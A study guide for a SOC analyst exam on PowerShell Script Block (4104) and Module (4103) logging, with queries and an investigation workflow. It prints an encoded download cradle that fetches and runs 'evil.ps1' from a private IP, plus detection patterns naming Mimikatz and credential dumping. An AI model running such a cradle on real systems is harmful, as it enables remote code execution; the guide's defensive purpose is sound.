




# PowerShell Logging: Script Block Logging & Module Logging

## TCM Exam Objectives

- Differentiate between Script Block Logging (Event ID 4104) and Module Logging (Event ID 4103) and their investigation use cases
- Configure PowerShell logging via Group Policy and registry keys for maximum visibility
- Query the Microsoft-Windows-PowerShell/Operational log using Get-WinEvent, FilterHashtable, and wevtutil XPath
- Analyze deobfuscated ScriptBlockText to decode Base64-encoded and obfuscated attacker payloads
- Detect attack frameworks (PowerSploit, Empire, Mimikatz) through Module Logging Event ID 4103
- Correlate PowerShell events with process creation (4688/Sysmon 1) and network connections (Sysmon 3)
- Identify download cradles, credential dumping commands, and lateral movement indicators in 4104
- Leverage Warning-level 4104 events as built-in suspicious activity heuristics
- Reconstruct multi-block scripts using MessageNumber and MessageTotal fields
- Recognize that execution policy bypass, -WindowStyle Hidden, and -NonInteractive do not prevent logging

PowerShell Script Block Logging (Event ID 4104) and Module Logging (Event ID 4103) transform PowerShell from a forensic blind spot into the most richly logged scripting environment on Windows. Every command, script block, and module load can be recorded, enabling analysts to read an attacker's payload even when obfuscation or Base64 encoding was used.

- Script Block Logging (Event ID 4104) mechanics and field reference
- Module Logging (Event ID 4103) for attack framework detection
- GPO and registry configuration for enabling both logging mechanisms
- Query techniques with Get-WinEvent, FilterHashtable, and wevtutil
- Investigation workflow correlating 4104/4103 with process creation (4688) and network connections
- Common attack patterns and their 4104 signatures



## Why PowerShell Logging Is Critical

PowerShell is the attacker's go-to tool for fileless attacks, lateral movement, and post-exploitation because it provides direct access to .NET framework, Windows API, and WMI/CIM. Every PowerShell command, script block, and module load can be recorded in the `Microsoft-Windows-PowerShell/Operational` log, turning this attack vector into the single richest source of truth for what code actually executed on a Windows endpoint.

When process creation (Event ID 4688 or Sysmon Event ID 1) shows a suspicious `powershell.exe -enc ...` command line, PowerShell logging is the definitive next step to see what that Base64 blob actually decoded into and executed.

## Script Block Logging (Event ID 4104)

### What Gets Logged

Script Block Logging captures entire script blocks as they are compiled and executed by PowerShell. Even when an attacker uses backticks, string concatenation, or Base64 encoding to hide the command, the logged `ScriptBlockText` is the **deobfuscated** representation that PowerShell internally creates after parsing.

The event is written to the `Microsoft-Windows-PowerShell/Operational` log with Event ID 4104. The Level field is **Warning** when PowerShell's built-in heuristics flag the content as suspicious (e.g., obfuscated code or encoded commands), and **Verbose** when configured to log all blocks.

> 📌 **Exam Tip:** A 4104 event with Level = Warning is a built-in detection signal that PowerShell itself flagged the script block as suspicious. This is NOT a system error — treat it as a high-priority indicator in your investigation. Attackers cannot prevent Warning-level logging even with obfuscation.

### Event 4104 Field Reference

| Field | Description | SOC Value |
|-------|-------------|-----------|
| **MessageNumber** | Sequence number for multi-block scripts (1, 2, 3...) | Enables reconstruction of large scripts split across multiple events |
| **MessageTotal** | Total number of message fragments for the script | Indicates whether all fragments were collected |
| **ScriptBlockText** | The full text of the executed script block, deobfuscated | Contains the actual malicious command in plain text |
| **ScriptBlockId** | A unique GUID for the script block | Correlates the same block across different processes |
| **Path** | Path to the script file (if run from file) | Often empty for command-line execution; may show file-based malware |
| **Level** | Warning or Verbose | Warning indicates PowerShell's own engine deemed the block suspicious |

If an attacker uses `powershell -enc JAB4AD0AKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAxAC4AMQAwADAALwBlAHYAaQBsAC4AcABzADEAJwApADsAIABJAG4AdgBvAGsAZQAtAEUAeABwAHIAZQBzAHMAaQBvAG4AIAAkAHgA`, the decoded `ScriptBlockText` will read `$x=(New-Object Net.WebClient).DownloadString('http://192.168.1.100/evil.ps1'); Invoke-Expression $x`.

## Module Logging (Event ID 4103)

### What Gets Logged

Module Logging records when a PowerShell module (`.psm1`), snap-in, or cmdlet is loaded into a session. Attackers frequently load custom or well-known attack modules such as PowerSploit, Empire, or Invoke-Mimikatz. Module logging captures the **module path** and **user context** but does not capture the commands executed within the module---that is the role of Script Block Logging.

### Event 4103 Field Reference

| Field | Description | SOC Value |
|-------|-------------|-----------|
| **ContextInfo** | The user, host application, and command line that triggered the module load | Identifies who and what loaded the module |
| **Payload** | The full path to the `.psm1` file, or the module name | `C:\Tools\PowerSploit\Exfiltration\Invoke-Mimikatz.ps1` indicates immediate compromise |
| **UserId** | SID of the user who ran the command | Shows which user context performed the load |

### Attack Module Names to Monitor

| Module / Command | Source Framework | Detection Priority |
|------------------|------------------|-------------------|
| `Invoke-Mimikatz` | Mimikatz / PowerSploit | Critical |
| `Invoke-ReflectivePEInjection` | PowerSploit | Critical |
| `PowerView` / `Get-NetUser` | PowerSploit / Empire | High |
| `Invoke-Shellcode` | PowerSploit | Critical |
| `Get-Keystrokes` | PowerSploit | High |
| `Invoke-Empire` / `Invoke-Covenant` | Empire / Covenant | Critical |
| `Invoke-ShareFinder` | BloodHound / PowerView | Medium |

> 📌 **Exam Tip:** Module Logging requires the module names to include `*` to capture ALL modules. If only specific module names are listed, any malicious module not on that list will NOT generate 4103 events. Always verify the GPO or registry configuration during your investigation.

Even if Script Block Logging shows nothing obvious (e.g., heavily compressed binary), a 4103 event loading `Invoke-Mimikatz` is a clear incident indicator requiring immediate response.

## Enabling PowerShell Logging

### Group Policy Configuration

Navigate to `Computer Configuration` → `Administrative Templates` → `Windows Components` → `Windows PowerShell`.

| Policy Setting | Recommended Value | Effect |
|----------------|-------------------|--------|
| Turn on Script Block Logging | Enabled (Log script block invocation start/stop events optional) | Enables Event ID 4104 |
| Turn on Module Logging | Enabled, module names = `*` | Enables Event ID 4103 for all modules |
| Turn on PowerShell Transcription | Enabled | Creates full text transcripts to a file |

### Registry Verification

```powershell
# Script Block Logging
Get-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"

# Module Logging
Get-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ModuleLogging"
```

Required values:
- Script Block Logging: `EnableScriptBlockLogging = 1`
- Module Logging: `EnableModuleLogging = 1`, with a `ModuleNames` key containing `*`

## Querying PowerShell Logs

### Get-WinEvent with FilterHashtable

```powershell
# All 4104 events
Get-WinEvent -FilterHashtable @{
    LogName = 'Microsoft-Windows-PowerShell/Operational'
    ID = 4104
} -MaxEvents 100

# All 4103 events
Get-WinEvent -FilterHashtable @{
    LogName = 'Microsoft-Windows-PowerShell/Operational'
    ID = 4103
} -MaxEvents 100
```

### Extracting ScriptBlockText from XML

```powershell
$events = Get-WinEvent -FilterHashtable @{
    LogName = 'Microsoft-Windows-PowerShell/Operational'
    ID = 4104
} -MaxEvents 50

$events | ForEach-Object {
    [xml]$xml = $_.ToXml()
    $scriptBlock = $xml.Event.EventData.Data |
        Where-Object { $_.Name -eq 'ScriptBlockText' } |
        Select-Object -ExpandProperty '#text'
    if ($scriptBlock) {
        [PSCustomObject]@{
            TimeCreated = $_.TimeCreated
            ScriptBlockText = $scriptBlock
            Level = $_.LevelDisplayName
        }
    }
}
```

### wevtutil

```cmd
wevtutil qe "Microsoft-Windows-PowerShell/Operational" /q:"*[System[(EventID=4104)]]" /c:20 /f:text
```

## Investigation Workflow

When a suspicious `powershell.exe` process is identified via Event ID 4688 or Sysmon Event ID 1, follow this workflow.

### Step 1: Record the Process Details

From the process creation event, capture the PID, command line, user context, and timestamp. If the command line contains `-enc` or `-EncodedCommand`, the decoded payload will appear in 4104.

### Step 2: Query PowerShell Logs Around the Event Time

```powershell
$startTime = (Get-Date).AddMinutes(-5)
$endTime = Get-Date

Get-WinEvent -FilterHashtable @{
    LogName = 'Microsoft-Windows-PowerShell/Operational'
    ID = 4104, 4103
    StartTime = $startTime
    EndTime = $endTime
} | Sort-Object TimeCreated
```

### Step 3: Scan ScriptBlockText for Indicators

| Indicator String | Suspicious Behavior |
|-----------------|---------------------|
| `Net.WebClient` / `DownloadString` | Download cradle |
| `Invoke-WebRequest` / `iwr` | HTTP download |
| `IEX` / `Invoke-Expression` | Command execution |
| `-enc` / `-EncodedCommand` | Base64 payload |
| `Mimikatz` / `sekurlsa` / `lsass` | Credential dumping |
| `Invoke-Command` / `New-PSSession` | Lateral movement |
| `Set-ItemProperty` + `Run` | Registry persistence |

### Step 4: Check Module Logs for Attack Frameworks

```powershell
Get-WinEvent -FilterHashtable @{
    LogName = 'Microsoft-Windows-PowerShell/Operational'
    ID = 4103
} | ForEach-Object {
    [xml]$xml = $_.ToXml()
    $payload = $xml.Event.EventData.Data |
        Where-Object { $_.Name -eq 'Payload' } |
        Select-Object -ExpandProperty '#text'
    if ($payload -match 'Mimikatz|PowerSploit|Empire|PowerView') {
        [PSCustomObject]@{
            TimeCreated = $_.TimeCreated
            Payload = $payload
        }
    }
}
```

### Step 5: Correlate with Other Logs

| Log Source | Event ID | Correlation |
|------------|----------|-------------|
| Security | 4688 | Process creation with command line |
| Sysmon | 1 | Process creation with rich metadata |
| Sysmon | 3 | Network connection from PowerShell PID to C2 IP |
| Sysmon | 11 | File creation (e.g., dropped `.ps1` script) |
| Security | 4663 | File access (e.g., `lsass.exe` memory for Mimikatz) |

## Common Attack Patterns in 4104



<details>
<summary>Base64 Decoding Example</summary>

Raw 4688 command line:
```
powershell -enc JAB4AD0AKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAxAC4AMQAwADAALwBlAHYAaQBsAC4AcABzADEAJwApADsAIABJAG4AdgBvAGsAZQAtAEUAeABwAHIAZQBzAHMAaQBvAG4AIAAkAHgA
```

The 4104 event will show:
```
$x=(New-Object Net.WebClient).DownloadString('http://192.168.1.100/evil.ps1'); Invoke-Expression $x
```

This is a **download cradle** that retrieves and executes a remote script.
</details>



## Logging Comparison

| Feature | Script Block Logging (4104) | Module Logging (4103) |
|---------|----------------------------|----------------------|
| **Event ID** | 4104 | 4103 |
| **Log Location** | Microsoft-Windows-PowerShell/Operational | Microsoft-Windows-PowerShell/Operational |
| **Key Field** | ScriptBlockText | Payload |
| **Captures** | Executed script block, deobfuscated | Module `.psm1` load event |
| **Best For** | Download cradles, encoded commands, obfuscated code | Attack framework detection (PowerSploit, Empire) |
| **Configuration** | GPO: Turn on Script Block Logging | GPO: Turn on Module Logging, names = `*` |
| **Registry** | EnableScriptBlockLogging = 1 | EnableModuleLogging = 1 |

<details>
<summary>PSAA Exam Traps</summary>

- **Warning level events are not errors.** A 4104 with Level = Warning means PowerShell automatically flagged the script block as suspicious. This is a built-in detection signal, not a system error.
- **Execution policy is not a security barrier.** Script Block Logging captures blocks regardless of the current execution policy (Restricted, RemoteSigned, Bypass, Unrestricted).
- **Module Logging requires `*` to log all modules.** If only specific module names are listed, any malicious module not on that list will not generate 4103 events.
- **Large script blocks are split into multiple 4104 events.** Use MessageNumber and MessageTotal to reassemble complete scripts.
- **`-WindowStyle Hidden` and `-NonInteractive` do not prevent logging.** 4104 fires regardless of window style or interaction mode.
- **4104 may have an empty ScriptBlockText** for very small cmdlets (e.g., `Get-Date`). Use 4103 to track loaded modules in those cases.
</details>



## Recap

Script Block Logging (4104) captures the actual PowerShell code executed, including deobfuscated content from Base64 or obfuscated payloads. Module Logging (4103) records module loading events essential for detecting attack frameworks like PowerSploit and Empire. Both are enabled via Group Policy or registry, queried with `Get-WinEvent` and `wevtutil`, and must be correlated with process creation (4688/1), network connections (3), and file creation (11) for a complete attack timeline. The combination of 4104 with `ScriptBlockText` containing download cradles, credential dumping commands, or obfuscated blocks provides definitive evidence of malicious PowerShell activity.
